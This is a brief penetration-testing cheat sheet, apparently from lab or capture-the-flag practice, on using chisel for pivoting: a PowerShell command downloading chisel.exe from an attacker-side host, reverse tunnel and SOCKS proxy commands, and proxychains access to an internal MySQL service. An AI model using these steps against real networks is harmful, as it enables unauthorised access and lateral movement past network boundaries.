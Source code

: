 https://github.com/jpillora/chisel/releases

```powershell
Invoke-WebRequest -Uri http://<ip>:8000/chisel.exe -OutFile chisel.exe
```

```bash
# Server
chisel server --reverse --socks5
# Server on Custom Port
chisel server --reverse --port 9001
# Client
chisel client 10.10.16.48:8080 R:8200:localhost:8200

chisel client 10.10.16.48:9001 R:8200:localhost:8200
```
## Proxychains
```bash
chisel server --reverse --socks5 --port 9999

chisel client <ip>:9999 R:socks

proxychains mysql -u username -p password -h 127.0.0.1:1080
```

## Port Forwarding
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/